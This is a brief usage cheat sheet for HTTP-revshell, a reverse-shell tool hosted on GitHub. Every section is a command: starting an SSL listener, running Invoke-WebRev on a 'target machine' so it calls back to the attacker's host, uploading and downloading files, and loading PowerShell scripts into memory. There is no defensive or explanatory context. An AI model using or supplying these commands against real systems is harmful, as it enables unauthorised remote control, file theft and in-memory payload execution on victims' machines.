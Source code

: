 ### source
https://github.com/3v4Si0N/HTTP-revshell  

### start listener
```
$> python3 server.py <lhost> <lport> --ssl
```

### start on target machine
```
PS> Invoke-WebRev -ip <lhost> -port <lport> -ssl
```

### upload/download files
```
PS> upload <source/path> <C:\destination\path>
```

### load powershellscript into memory
```
PS> loadps1 <source/path>
```

### for server: you might need to install
```
sudo apt install libncurses5-dev
```

